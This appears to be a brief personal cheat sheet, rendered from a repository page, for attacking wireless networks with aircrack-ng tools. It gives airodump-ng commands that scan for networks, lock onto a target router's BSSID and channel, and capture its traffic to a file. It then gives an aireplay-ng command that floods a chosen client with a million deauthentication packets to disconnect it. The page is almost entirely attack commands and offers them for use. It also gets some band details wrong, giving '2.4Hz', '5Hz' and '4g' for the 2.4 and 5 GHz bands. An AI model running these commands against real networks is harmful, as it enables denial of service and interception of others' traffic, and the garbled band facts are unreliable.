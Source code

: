 [Back](..)

after activating monitor mode\
airodump-ng --band abg <wireless adaptor in mon mode> will search for all 5g and 4g networks\
airodump-ng wlan0 for only 4g or 2.4Hz networks\
airodump-ng --band a <wireless adaptor in mon mode> for 5g or 5Hz networks\
airodump-ng --bssid <bssid of target> --channel <channel no> --write <name/location of file to write on> <wireless mon mode> to start collecting data\
^c to stop\
wireshark to elaborate the cap file on opening

aireplay-ng --deauth 1000000 -a <router mac> -c <client mac> <adapter in mon> will start deauth attacks \
client mac can be any one of the several clients connected to the router we targeted.

[Back](..)